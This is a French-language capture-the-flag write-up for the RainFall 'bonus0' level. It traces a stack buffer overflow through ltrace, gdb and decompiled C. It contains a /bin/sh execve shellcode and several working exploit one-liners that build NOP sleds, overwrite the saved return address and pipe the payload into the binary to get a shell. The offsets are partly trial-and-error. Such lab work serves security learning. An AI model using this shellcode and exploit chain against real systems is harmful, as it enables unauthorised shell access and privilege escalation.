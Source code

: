bonus0@RainFall:~$ ltrace ./bonus0 
__libc_start_main(0x80485a4, 1, 0xbffff6f4, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - " - )                                      = 4
read(0, lol"lol\n", 4096)                           = 4
strchr("lol\n", '\n')                               = "\n"
strncpy(0xbffff5d8, "lol", 20)                      = 0xbffff5d8
puts(" - " - )                                      = 4
read(0, lol"lol\n", 4096)                           = 4
strchr("lol\n", '\n')                               = "\n"
strncpy(0xbffff5ec, "lol", 20)                      = 0xbffff5ec
strcpy(0xbffff626, "lol")                           = 0xbffff626
strcat("lol ", "lol")                               = "lol lol"
puts("lol lol"lol lol)                              = 8

En testant 20 * A dans le premier read et 20 * B dans le deuxieme
En mettant un break point a la fin du main j'arrive a obtenir une valeur de ebp modifier

ebp            0x42424242       0x42424242
eip = 0x80485cb in main; saved eip 0x42424242

Donc le retour de la fonction main est modifier
On va surement pouvoir envoyer un shellcode de cette maniere

On reprend notre shellcode : "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

40 pour le premier ?
Offset 9 pour le deuxieme read

0x bf ff f6 10
r < <(python -c 'print "\x90"*20 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' ; python -c 'print "\x90"*20 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')


Chercher une valeur dans la memoire : 

(gdb) find START_ADDR, END_ADDR, VALEUR

Obtenir la plage memoire :

(gdb) info proc mappings

Exemple :

(gdb) find $esp, +1000, 0x41
(gdb) find $esp, +1000, 0x6a, 0x0b, 0x58, 0x99


Ok donc avec ca on reprend du debut parce que la c'est la cata cata

Avec breakpoint dans p()
Avant leave
(gdb) find $esp, +1000, 0x41414141
0xbfffe590
(gdb) find $esp, +1000, 0x42424242
0xbfffe590

Apres leave :
(gdb) find $esp, +1000, 0x41414141
0xbffff5c8
(gdb) find $esp, +1000, 0x42424242
0xbffff5dc



Avec breakpoint dans pp()
Avant leave :
(gdb) find $esp, +1000, 0x41414141
0xbffff616
(gdb) find $esp, +1000, 0x42424242
0xbffff61b
Pas de leave dans pp()

Avec breakpoint dans main()
(gdb) find $esp, +1000, 0x42424242
0xbffff61b
(gdb) find $esp, +1000, 0x41414141
0xbffff616
donc dans le contexte du main les adresses et valeurs sont identiques

Regardons apres le leave :
(gdb) find $esp, +1000, 0x42424242
Pattern not found.
(gdb) find $esp, +1000, 0x41414141
Pattern not found.

not found car %esp est mov dans %ebp donc le find ne trouve pas a partir de %esp mais les valeurs/adresses sont toujours bien la :

(gdb) x/x 0xbffff61b
0xbffff61b:     0x42424242
(gdb) x/x 0xbffff616
0xbffff616:     0x41414141

(gdb) find 0xbffff616, +1000, 0xb7e454d3
0xbffff64c
0xbffff64c:     0xb7e454d3

On a notre adresse a modifier et sa position dans la stack ! MAGNIFIKE MA CHERIE


r < <(python -c 'print "\x90"*20'; python -c 'print "\x90" * 9 +  "\x26\xf6\xff\xbf" + 16*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')


```c
char* pp(char* arg1) {
    char buffer1[48];  // [ebp-0x30]
    char buffer2[28];  // [ebp-0x1c]
    
    p(buffer1, data_80486a0);  // Premier input: AAAAA...
    p(buffer2, data_80486a0);  // Deuxième input: BBBBB...
    
    strcpy(arg1, buffer1);     // Copie AAAAA dans arg1
    
    size_t len = strlen(arg1); // Trouve la longueur de arg1
    arg1[len] = ' ';          // Ajoute un espace
    
    strcat(arg1, buffer2);     // Ajoute BBBBB à la suite
}
```

`arg1` est en fait le `str` déclaré dans le `main()`. C'est là qu'est la vulnérabilité:

1. `buffer1` contient 20 'A' (sans null byte)
2. `buffer2` contient 20 'B' (sans null byte)
3. Quand on copie `buffer1` dans `str`, on a 20 'A'
4. On ajoute un espace
5. Quand `strcat` ajoute `buffer2`, il va écrire les 20 'B' à la suite

Donc dans `str`, on va avoir:
```
AAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBB
```

C'est 41 caractères dans un buffer de 42, mais comme il n'y a pas de null byte entre les A et les B, on peut déborder et écraser la mémoire au-delà de `str`.

La vulnérabilité est donc dans le fait qu'on peut écrire plus que la taille prévue de `str` grâce à l'absence de null bytes dans les `strncpy` précédents.


--> En realite le buffer est ecrit en memoire, seulent 20 bytes sont copier dans le strncpy mais on s'en fou frerot


find /b 0xbfffe590, +2000, 0x6a, 0x0b, 0x58, 0x99, 0x52, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x31, 0xc9, 0xcd, 0x80

Donc notre payload contient = 20 nops (pour le premier read) + 9 nops (pour atteindre saved eip du main(addr de retour)) + addr de notre shellcode + shellcode 

r < <(python -c 'print "\x90"*20' ; python -c 'print "\x90"*9 + "\xbb\xe5\xff\xbf" + "\x90" * 30 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

(python -c 'print "\x90"*20' ; python -c 'print "\x90"*9 + "\xbb\xe5\xff\xbf" + "\x90" * 30 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; cat) | ./bonus0
0xbfffe5a1
0xbfffe5bb